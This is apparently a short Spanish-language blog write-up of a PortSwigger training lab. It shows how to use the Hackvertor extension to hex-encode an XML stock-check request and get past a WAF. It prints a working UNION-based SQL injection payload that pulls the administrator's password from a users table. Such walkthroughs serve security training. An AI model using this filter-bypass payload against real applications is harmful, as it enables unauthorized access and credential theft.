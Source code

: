 ```yaml
---
title: SQL injection with filter bypass via XML encoding - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


En este laboratorio usaremos la extencion de `Hackvertor` para bypassear el waf

![20240805131528.png](20240805131528.png)

Instalamos la extensión.

![20240805132602.png](20240805132602.png)

Luego encodeamos el parámetro vulnerable.

![20240805132720.png](20240805132720.png)

Luego de en codear debemos de tener de la siguiente manera:

```c
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
		<@hex_entities>
		3  union select password from users where username='administrator'-- - 
		<@/hex_entities>
		</productId>
	<storeId>1</storeId>
</stockCheck>

```

Ahora enviamos y obtendremos la contraseña del usuario administrator:

![20240805132846.png](20240805132846.png)


